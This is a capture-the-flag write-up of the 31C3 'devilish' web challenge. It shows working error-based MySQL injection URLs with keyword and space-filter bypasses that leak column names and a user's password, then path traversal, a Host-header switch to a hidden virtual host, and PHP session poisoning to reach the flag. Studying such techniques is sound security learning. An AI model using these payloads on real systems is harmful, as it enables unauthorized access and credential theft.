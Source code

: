 ```yaml
---
layout: post
title: "31C3 CTF 'devilish' writeup"
categories: writeups 31c3-ctf
tags: exploitation
author: eboda
---
```


*devilish* was a web challenge worth 30 points at the 31C3 CTF.

![devilish page]({{ site.url }}:1337/imgs/31c3-ctf_devilish_1.png)

## SQL injection
The website itself offered a login form as well as a member list and profile pages. The profile pages used a rewritten URL:

    http://188.40.18.70/PROFILE/55/Dracula

We found a SQL injection vulnerability by adding a backslash `\` either after the *55* or *Dracula*:

    http://188.40.18.70/PROFILE/55\/Dracula

This produces an error message in a Halloween-type font, so only checking the HTML source reveals it:

{% highlight HTML %}
<!--SELECT * FROM users WHERE id_user='55\' AND Us3rN4m3='Dracula'-->
<span class='styleX'>You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'Dracula'' at line 1</span>
{% endhighlight %}

We are dealing with a MySQL dbms and the error is obviously due to the `'` getting escaped by the backslash. We also learned a table name: `users`.

However, the  actual  injection was rather tricky as a lot of SQL keywords were filtered, such as `UNION`, `GROUP`, `OR` (therefore blocking also infORmation_schema), `FILE`, `'`, `/*`, spaces and some more.
Note that in MySQL you can bypass a filter on spaces rather easily with either making use of paranthesis or by using ASCII chars, which MySQL interprets as spaces, such as %09 (tab), %0a (new line), %0b, %0c. %a0.

Without being able to access `information_schema` we could not retrieve the column names of table `users` in the traditional way.
First we checked the number of columns in users:

    http://188.40.18.70//PROFILE/55\/||(select*from(users))=1--%09-

The error output of this gave us the number of columns:

    Operand should contain 8 column(s)

Then we continued by using an error based injection with the polygon() method. Queries passed to polygon() are expanded and reflected in the error message:

    http://188.40.18.70//PROFILE/55\/||username=||polygon((select(1)from(select*from(users))x))--%09-

The output of this was the following:

    Illegal non geometric '(select 1 from (select `devilish`.`users`.`id_user` AS `id_user`,`devilish`.`users`.`Us3rN4m3` AS `Us3rN4m3`,`devilish`.`users`.`Em4iL4dR3Szz` AS `Em4iL4dR3Szz`,`devilish`.`users`.`S4cR3dT3xT0' value found during parsing

As you can see, we now had learned some column names already. However, the output was cut off since the length of error messages was limited. We could get more output by retrieving only a row of NULLs:

    http://188.40.18.70//PROFILE/55\/||polygon((select(1)from(select*from(users)where(id_user=0))x))--%09-

Now the output for each column was shorter and we learned additional column names: 

    Illegal non geometric '(select 1 from (select NULL AS `id_user`,NULL AS `Us3rN4m3`,NULL AS `Em4iL4dR3Szz`,NULL AS `S4cR3dT3xT0Fm3`,NULL AS `MyPh0N3NumB3RHAHA`,NULL AS `Addr3Zz0F_tHi5_D3wD`,NULL AS `CHAR_LOL`,NULL AS' value found during parsing

Unfortunately, the last column name - the one for the password column :) - didn't fit into the error message, it was cut off at **NULL AS**.

Another way to leak column names is to join a table with itself:

    http://188.40.18.70/PROFILE/55\/||(select(1)from(select*from(users)join(users`x`))f)--%09-

Note, that you need to give the second users table an alias, otherwise MySQL will complain about duplicate tables.
This gave us the first column: 

    Duplicate column name 'id_user'

To get the remaining column names, we have to trick MySQL into ignoring the columns we are not interested in. This can be done with the `USING` keyword. MySQL assumes that columns passed in a list after `USING` are present in both tables of the join and joins the table on them:

    http://188.40.18.70/PROFILE/55\/||(select(1)from(select*from(users)join(users`x`)using(id_user))f)--%09-

And we get the second column:

    Duplicate column name 'Us3rN4m3'

We could retrieve all columns - including the last one - with this method:

    http://188.40.18.70/PROFILE/55\/||(select(1)from(select*from(users)join(users`x`)using(id_user,Us3rN4m3,Em4iL4dR3Szz,
    S4cR3dT3xT0Fm3,MyPh0N3NumB3RHAHA,Addr3Zz0F_tHi5_D3wD,CHAR_LOL)))f)--%09-

Which gave us the password column: 

    Duplicate column name 'P4sWW0rD_0F_M3_WTF'

Then with simple error based injection we retrieved a login:

    http://188.40.18.70/PROFILE/55\/||polygon((select(1)from(select(Us3rN4m3),(P4sWW0rD_0F_M3_WTF)from(users)where(id_user=55))x))--%09-
    

The output is the username and password of the user with id=55:

    Illegal non geometric '(select 1 from (select 'Dracula' AS `Us3rN4m3`,'ZD456ddssd65456lksndoiNzd654sdsd654zd65s4d56489zdz' AS `P4sWW0rD_0F_M3_WTF` from `devilish`.`users` where ('55' = 55)) `x`)' value found during parsing

    user: Dracula
    pass: ZD456ddssd65456lksndoiNzd654sdsd654zd65s4d56489zdz

## Directory Listings
When logging in, we were greeted with a page allowing us to browse some directories of the logged in user. However, with simple path traversal it was easy to manage to browse any directory on the server:

![devilish flag]({{ site.url }}:1337/imgs/31c3-ctf_devilish_2.png)

We were able to access some of the source pages of the website in the following folder:

    http://188.40.18.70/ACCESS?action=browse&dir=../../__WebSiteFuckingPrivateContentNotForPublic666

We could read the LOGIN script, by simply navigating to the file with the browser:

{% highlight php %}
<?php
    if(@$_SESSION['user']){header("location: ".$LINK);die();}
    if(isset($_POST['user'])){
        if(mysqli_num_rows(mysqli_query($con,"SELECT * FROM users WHERE Us3rN4m3='".mysqli_real_escape_string($con,@$_POST['user'])."' AND P4sWW0rD_0F_M3_WTF='".mysqli_real_escape_string($con,@$_POST['pass'])."' "))>0){
            $_SESSION=$_POST;
            header("location: ".$LINK);die();
        }else{
            $Error=1;
        }
    }
?>
{% endhighlight %}

Notice that the `$_SESSION` variable will be set to the `$_POST` variable here. We will need to use this fact later on.

Other directories of interest were /home/user and /home/devilish.local. The former  contained a `flag.txt`, but there was no way to read it, while the latter contained website files similar to the ones we already knew. Further investigation into the server revealed that in /etc/apache2/sites-enabled next to the default site, the devilish.local virtual host was enabled as well, serving a website out of the /home/devilish.local directory.

## Private portal

With simply changing the Host  header of the http request to `devilish.local`, we could then access the website presenting us with a login prompt to a private portal. Again we could fetch the source code of the login page:

{% highlight php %}
<?php
    if(@$_SESSION['is_ExclusiveMember']){header("location: ".$LINK);die();}
    if(isset($_POST['user'])){
        if(@$_POST['user']===$uLOGIN && @$_POST['pass']===$uPASSWORD){
            $_SESSION['is_ExclusiveMember']=1;
            header("location: ".$LINK);
            die();
        }else{
            $Error=1;
        }
    }
?>
{% endhighlight %}

Notice, that the session variable `is_ExclusiveMember` is used to mark a user as logged in. PHP sessions are not aware of virtual hosts by default and are shared between them. This means, we actually have control over the `$_SESSION` variable, as in the first LOGIN script, it is set to `$_POST`.

The things left to do are to login in the first LOGIN script and supply an additional POST parameter `is_ExclusiveMember=1`. Using the new session cookie, we then make a request to the private LOGIN script and get the flag displayed.

`Here's your secret 31c3_Th3r3_4R3_D3v1li5h_Th0ght5_ev3N_1N_th3_M0sT_4ng3l1c_M1nd5`

